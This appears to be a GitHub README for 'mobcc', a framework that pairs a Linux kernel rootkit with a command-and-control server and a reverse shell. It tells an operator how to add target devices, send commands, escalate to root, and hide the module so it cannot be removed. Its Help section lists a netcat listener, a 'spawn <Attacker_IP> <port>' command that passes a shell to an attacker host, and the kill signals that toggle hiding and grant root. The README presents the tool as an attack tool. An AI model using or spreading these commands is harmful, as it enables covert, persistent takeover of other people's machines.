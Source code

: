 # mobcc

Mob CC is a framework containing a Linux kernel rootkit, C2 server and Reverse shell with network scanning capabilities.


Add Devices using the below link. (If you are using the kernel module then this step will be automatically done by that.)

Select the added Device and start sending commands to the target system.

As you may directly get root access but incase you don't get root access then check commands to gain root privilege.

You can also spawn a new shell and transfer it to any other attacking system by giving the IP of the attacking system.



# Note:
Note that if you kill the reverse shell process then you have to install the kernel rootkit module again into the target system.

No one can remove the module if it's hidden.


# Help

To spawn a new shell from different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'

To scan the internal network from the target system. 'scan'

To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'

To toggle between hide and show the kernel module. 'kill -63 1'

To gain root privilege in the target machine from any other attacking machine using reverse shell like above.'kill -64 1'





Resource: Linux Kernel rootkit
https://xcellerator.github.io/posts/linux_rootkits_01/

